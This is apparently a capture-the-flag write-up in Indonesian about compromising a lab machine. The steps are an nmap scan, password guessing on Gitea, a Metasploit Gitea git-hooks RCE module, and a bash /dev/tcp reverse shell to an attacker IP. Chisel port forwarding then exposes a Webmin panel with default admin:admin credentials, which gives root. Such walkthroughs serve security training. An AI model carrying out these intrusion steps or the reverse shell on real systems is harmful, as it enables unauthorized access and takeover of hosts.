





1. Nmap
  
    ```
    # Nmap 7.94SVN scan initiated Wed Feb 21 14:37:33 2024 as: nmap -sC -sV -oN nmapx -p- -T4 --min-rate=1000 -v 10.1.2.144
    Nmap scan report for 10.1.2.144
    Host is up (0.25s latency).
    Not shown: 65532 filtered tcp ports (no-response)
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2 (protocol 2.0)
    | ssh-hostkey: 
    |   256 2a:b7:98:04:63:13:3b:65:eb:da:6f:a2:cf:5f:5a:2f (ECDSA)
    |_  256 a6:e9:91:38:62:ec:b2:71:49:51:0b:0c:7a:e3:c1:18 (ED25519)
    80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
    |_http-server-header: Apache/2.4.56 (Debian)
    |_http-title: Apache2 Debian Default Page: It works
    | http-methods: 
    |_  Supported Methods: OPTIONS HEAD GET POST
    3000/tcp open  ppp?
    | fingerprint-strings: 
    |   GenericLines, Help: 
    |     HTTP/1.1 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     Connection: close
    |     Request
    |   GetRequest: 
    |     HTTP/1.0 200 OK
    |     Content-Type: text/html; charset=UTF-8
    |     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
    |     Set-Cookie: i_like_gitea=d6e5568522a83e83; Path=/; HttpOnly
    |     Set-Cookie: _csrf=s-ohbAEBinlpf2wD6mfPy_tMQJM6MTcwODUwMDgzOTM1MjEzMTE2NQ; Path=/; Expires=Thu, 22 Feb 2024 07:33:59 GMT; HttpOnly
    |     X-Frame-Options: SAMEORIGIN
    |     Date: Wed, 21 Feb 2024 07:33:59 GMT
    |     <!DOCTYPE html>
    |     <html lang="en-US" class="theme-">
    |     <head data-suburl="">
    |     <meta charset="utf-8">
    |     <meta name="viewport" content="width=device-width, initial-scale=1">
    |     <meta http-equiv="x-ua-compatible" content="ie=edge">
    |     <title> Gitea: Git with a cup of tea </title>
    |     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
    |     <meta name="theme-color" content="#6cc644">
    |     <meta name="author" content="Gitea - Git with a cup of tea" />
    |     <meta name="description" content="Gitea (Git with a cup of tea) is a painless
    |   HTTPOptions: 
    |     HTTP/1.0 404 Not Found
    |     Content-Type: text/html; charset=UTF-8
    |     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
    |     Set-Cookie: i_like_gitea=65a25e4a6ec92cf7; Path=/; HttpOnly
    |     Set-Cookie: _csrf=vYGWUDRkPSKf6WzW7ex4w933TCw6MTcwODUwMDg0NTY4MzEwNTYwOA; Path=/; Expires=Thu, 22 Feb 2024 07:34:05 GMT; HttpOnly
    |     X-Frame-Options: SAMEORIGIN
    |     Date: Wed, 21 Feb 2024 07:34:05 GMT
    |     <!DOCTYPE html>
    |     <html lang="en-US" class="theme-">
    |     <head data-suburl="">
    |     <meta charset="utf-8">
    |     <meta name="viewport" content="width=device-width, initial-scale=1">
    |     <meta http-equiv="x-ua-compatible" content="ie=edge">
    |     <title>Page Not Found - Gitea: Git with a cup of tea </title>
    |     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
    |     <meta name="theme-color" content="#6cc644">
    |     <meta name="author" content="Gitea - Git with a cup of tea" />
    |_    <meta name="description" content="Gitea (Git with a c
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port3000-TCP:V=7.94SVN%I=7%D=2/21%Time=65D5A8C8%P=x86_64-pc-linux-gnu%r
    SF:(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x
    SF:20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Ba
    SF:d\x20Request")%r(GetRequest,29FC,"HTTP/1\.0\x20200\x20OK\r\nContent-Typ
    SF:e:\x20text/html;\x20charset=UTF-8\r\nSet-Cookie:\x20lang=en-US;\x20Path
    SF:=/;\x20Max-Age=2147483647\r\nSet-Cookie:\x20i_like_gitea=d6e5568522a83e
    SF:83;\x20Path=/;\x20HttpOnly\r\nSet-Cookie:\x20_csrf=s-ohbAEBinlpf2wD6mfP
    SF:y_tMQJM6MTcwODUwMDgzOTM1MjEzMTE2NQ;\x20Path=/;\x20Expires=Thu,\x2022\x2
    SF:0Feb\x202024\x2007:33:59\x20GMT;\x20HttpOnly\r\nX-Frame-Options:\x20SAM
    SF:EORIGIN\r\nDate:\x20Wed,\x2021\x20Feb\x202024\x2007:33:59\x20GMT\r\n\r\
    SF:n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"theme-\">\n<hea
    SF:d\x20data-suburl=\"\">\n\t<meta\x20charset=\"utf-8\">\n\t<meta\x20name=
    SF:\"viewport\"\x20content=\"width=device-width,\x20initial-scale=1\">\n\t
    SF:<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\t<tit
    SF:le>\x20Gitea:\x20Git\x20with\x20a\x20cup\x20of\x20tea\x20</title>\n\t<l
    SF:ink\x20rel=\"manifest\"\x20href=\"/manifest\.json\"\x20crossorigin=\"us
    SF:e-credentials\">\n\t<meta\x20name=\"theme-color\"\x20content=\"#6cc644\
    SF:">\n\t<meta\x20name=\"author\"\x20content=\"Gitea\x20-\x20Git\x20with\x
    SF:20a\x20cup\x20of\x20tea\"\x20/>\n\t<meta\x20name=\"description\"\x20con
    SF:tent=\"Gitea\x20\(Git\x20with\x20a\x20cup\x20of\x20tea\)\x20is\x20a\x20
    SF:painless")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Typ
    SF:e:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x
    SF:20Bad\x20Request")%r(HTTPOptions,2126,"HTTP/1\.0\x20404\x20Not\x20Found
    SF:\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\nSet-Cookie:\x20lang
    SF:=en-US;\x20Path=/;\x20Max-Age=2147483647\r\nSet-Cookie:\x20i_like_gitea
    SF:=65a25e4a6ec92cf7;\x20Path=/;\x20HttpOnly\r\nSet-Cookie:\x20_csrf=vYGWU
    SF:DRkPSKf6WzW7ex4w933TCw6MTcwODUwMDg0NTY4MzEwNTYwOA;\x20Path=/;\x20Expire
    SF:s=Thu,\x2022\x20Feb\x202024\x2007:34:05\x20GMT;\x20HttpOnly\r\nX-Frame-
    SF:Options:\x20SAMEORIGIN\r\nDate:\x20Wed,\x2021\x20Feb\x202024\x2007:34:0
    SF:5\x20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"
    SF:theme-\">\n<head\x20data-suburl=\"\">\n\t<meta\x20charset=\"utf-8\">\n\
    SF:t<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial
    SF:-scale=1\">\n\t<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=
    SF:edge\">\n\t<title>Page\x20Not\x20Found\x20-\x20\x20Gitea:\x20Git\x20wit
    SF:h\x20a\x20cup\x20of\x20tea\x20</title>\n\t<link\x20rel=\"manifest\"\x20
    SF:href=\"/manifest\.json\"\x20crossorigin=\"use-credentials\">\n\t<meta\x
    SF:20name=\"theme-color\"\x20content=\"#6cc644\">\n\t<meta\x20name=\"autho
    SF:r\"\x20content=\"Gitea\x20-\x20Git\x20with\x20a\x20cup\x20of\x20tea\"\x
    SF:20/>\n\t<meta\x20name=\"description\"\x20content=\"Gitea\x20\(Git\x20wi
    SF:th\x20a\x20c");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Feb 21 14:41:30 2024 -- 1 IP address (1 host up) scanned in 237.68 seconds

    ```

2. Buka port 3000 gitea
3. Coba guessing password dengan username yang ada

    ```
    username: askira
    password: askira
    ```

4. Mencari kerentanan pada layanan gitea versi 1.12.5
    
    

5. Menggunakan module metasploit untuk memasukan reverse shell `exploit/multi/http/gitea_git_hooks_rce`
    - Listening port 9001 pada local machine
        ```
        nc -lvnp 9001
        ```

    - Memasukan code reverse shell pada target machine
        ```
        bash -c 'bash -i >& /dev/tcp/10.18.200.73/9001 0>&1'
        ```

    - Mengambil flag user.txt

        


Tidak ada SUID dan juga password yang berada di local tapi masih ada port yang berbeda saat melakukan nmap pertama kali




Port 10000 pada target hanya dapat di akses pada target dan harus melakukan port forwarding untuk dapat dibuka pada local menggunakan chisel.

Chisel Server

```
chisel server --socks5 --reverse
```

Chisel Client

```
./chisel client --fingerprint ZF18d0ZyVYNQmlTy9cdCysD14mWBFhgylhWNU42C2yM= 10.18.200.73:8080 R:8000:127.0.0.1:10000
```


setelah terhubung dapat membuka server dengan url `https://127.0.0.1:8000` dan di arahkan kepada layanan webmin dengan default credentials `admin:admin`
dengan menu `command` webmin sendiri sudah memiliki hak akses root yang dapat mengakses flag root.txt

